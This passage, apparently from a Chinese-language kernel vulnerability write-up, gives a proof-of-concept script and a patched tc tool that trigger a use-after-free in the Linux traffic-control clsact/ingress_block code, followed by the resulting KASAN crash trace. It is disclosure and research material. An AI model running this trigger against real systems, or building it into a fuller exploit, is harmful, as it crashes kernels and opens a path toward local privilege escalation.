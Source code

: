 

## POC

```bash
#!/bin/sh

unshare -n sh -c """
./network-tools/ip link set lo up
./network-tools/tc qdisc add dev lo ingress_block 1 handle ffff: ingress
./network-tools/tc chain add block 1
./tc qdisc replace dev lo ingress_block 1 handle 1234: clsact
sleep 1 # wait RCU
"""
```

`./network-tools/tc` 為正常的 tc tool，而 `./tc` 需要 patch tc tool，不然沒有辦法任意控制 handle value：
``` diff
--- tc/tc_qdisc.c    2024-07-24 11:36:42.702698210 +0800
+++ tc/tc_qdisc_orig.c       2024-07-24 11:36:38.414843027 +0800
@@ -92,7 +92,7 @@
                        req.t.tcm_parent = TC_H_CLSACT;
                        strncpy(k, "clsact", sizeof(k) - 1);
                        q = get_qdisc_kind(k);
-                       // req.t.tcm_handle = TC_H_MAKE(TC_H_CLSACT, 0);
+                       req.t.tcm_handle = TC_H_MAKE(TC_H_CLSACT, 0);
                        NEXT_ARG_FWD();
                        break;
                } else if (strcmp(*argv, "ingress") == 0) {
```

下方為觸發漏洞時的 KASAN 錯誤資訊：
```
[   44.560441] BUG: KASAN: slab-use-after-free in mini_qdisc_pair_swap+0x26/0xb0
[   44.561275] Read of size 8 at addr ffff888003fd8000 by task kworker/u2:1/28
[   44.561660]
[   44.561930] CPU: 0 PID: 28 Comm: kworker/u2:1 Not tainted 6.7.0-rc3 #13
[   44.562174] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.0-debian-1.16.0-5 04/01/2014
[   44.562546] Workqueue: netns cleanup_net
[   44.563162] Call Trace:
[   44.563336]  <TASK>
[   44.563498]  dump_stack_lvl+0x32/0x40
[   44.563683]  print_report+0xcf/0x660
[   44.563828]  ? __virt_addr_valid+0xd0/0x150
[   44.563984]  ? mini_qdisc_pair_swap+0x26/0xb0
[   44.564130]  kasan_report+0xbe/0xf0
[   44.564275]  ? mini_qdisc_pair_swap+0x26/0xb0
[   44.564413]  mini_qdisc_pair_swap+0x26/0xb0
[   44.564552]  ? clsact_egress_block_get+0x20/0x20
[   44.564693]  tcf_chain0_head_change_cb_del+0xc7/0x180
[   44.564869]  tcf_block_put_ext+0x1a/0x50
[   44.565020]  clsact_destroy+0x96/0x3c0
[   44.565156]  ? qdisc_reset+0x1ab/0x1c0
[   44.565300]  __qdisc_destroy+0x54/0xc0
[   44.565430]  dev_shutdown+0x100/0x170
[   44.565568]  unregister_netdevice_many_notify+0x2e0/0xb00
[   44.565764]  ? netdev_freemem+0x30/0x30
[   44.565899]  ? unregister_netdevice_queue+0xb7/0x150
[   44.566057]  ? unregister_netdevice_many+0x10/0x10
[   44.566210]  ? mutex_is_locked+0x16/0x30
[   44.566345]  default_device_exit_batch+0x28b/0x310
[   44.566495]  ? unregister_netdev+0x20/0x20
[   44.566643]  ? cfg80211_switch_netns+0x2c0/0x2c0
[   44.566814]  cleanup_net+0x2c2/0x4b0
[   44.566955]  ? peernet2id+0x40/0x40
```